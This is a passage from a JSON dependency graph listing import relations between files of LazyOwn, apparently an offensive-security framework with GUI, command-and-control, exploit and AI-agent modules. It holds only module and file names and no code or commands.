"lazygui/widgets/event_log_view.py", "target": "lazygui.services.event_log"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/event_log_view.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/filter_bar.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/filter_bar.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/filter_bar.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/filter_bar.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/graph_view.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/status_badge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/status_badge.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/status_badge.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/terminal_view.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/terminal_view.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/terminal_view.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/terminal_view.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/terminal_view.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/terminal_view.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/__init__.py", "target": "lazygui.windows.command_palette_window"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/__init__.py", "target": "lazygui.windows.connect_dialog"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/__init__.py", "target": "lazygui.windows.main_window"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/command_palette_window.py", "target": "lazygui.widgets.command_palette_list"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui.config.c2_credentials"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui.config.paths"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui.config.settings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui.services.teamserver_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.config.settings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.panels.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.services.event_log"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.theme.manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.widgets.beacon_command_modal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.widgets.command_palette_list"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.widgets.status_badge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "lazygui.windows.command_palette_window"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/windows/main_window.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cmd2.plugin"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.chain_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.chain_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.chain_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.chain_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.fuzzy_picker"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.protips"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.scope_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.scope_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.scope_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.status_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "atexit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.payload_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.command_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.scope_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.command_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.headless"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "skills.unified_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.event_consumers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.cli_enhancements"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.autonomous"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.cli_enhancements"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.credential_vault"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.session_cleanup"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.lazynmap_post"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.unified_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.cli_enhancements"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "cli.splash"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyown.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/49803.py", "target": "optparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/49803.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/49803.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/49803.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/CVE-2023-28432.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/CVE-2023-28432.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/CVE-2023-28432.py", "target": "urllib3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/LazyOwnExplorer.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/LazyOwnExplorer.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/LazyOwnExplorer.py", "target": "tkinter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/LazyOwnExplorer.py", "target": "tkinter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/LazyOwnExplorer.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/LazyOwnExplorer.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/adcs_attacks.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/adcs_attacks.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/adcs_attacks.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/adcs_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/adcs_attacks.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "inspect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/agent_runner.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_exploit_chain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_exploit_chain.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_exploit_chain.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_exploit_chain.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_exploit_chain.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_fallback.py", "target": "toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "openai"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "anthropic"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ai_model.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/amsi.c", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/amsi.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/amt_auth_bypass.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/apt_playbooks.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/asset_graph.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/asset_graph.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/asset_graph.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/asset_graph.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/asset_graph.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/atomic_enricher.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "cli.surface_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/attack_surface3d.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_pivot.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 